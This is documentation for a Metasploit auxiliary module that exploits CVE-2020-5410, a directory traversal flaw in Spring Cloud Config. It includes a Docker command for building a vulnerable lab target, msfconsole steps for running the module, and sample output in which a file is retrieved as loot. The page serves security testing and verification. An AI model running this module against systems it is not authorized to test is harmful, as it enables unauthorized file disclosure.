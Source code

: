 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exists in Spring Cloud Config versions 2.2.x prior to 2.2.3 and 2.1.x prior to 2.1.9, and older unsupported versions. Spring Cloud Config listens by default on port 8888.

**References:** https://tanzu.vmware.com/security/cve-2020-5410 <br>
**Vulnerable Installation Guide:** https://github.com/osamahamad/CVE-2020-5410-POC/blob/master/README.md

```
docker run -it --name=spring-cloud-config-server \
-p 8888:8888 \
hyness/spring-cloud-config-server:2.1.6.RELEASE \
--spring.cloud.config.server.git.uri=https://github.com/spring-cloud-samples/config-repo
```

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_directory_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf5 auxiliary(scanner/http/springcloud_directory_traversal) > run

[+] File saved in: /Users/Dhiraj/.msf4/loot/20200619234552_default_[REDACTED]_springcloud.trav_785232.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/springcloud_directory_traversal) > 
```
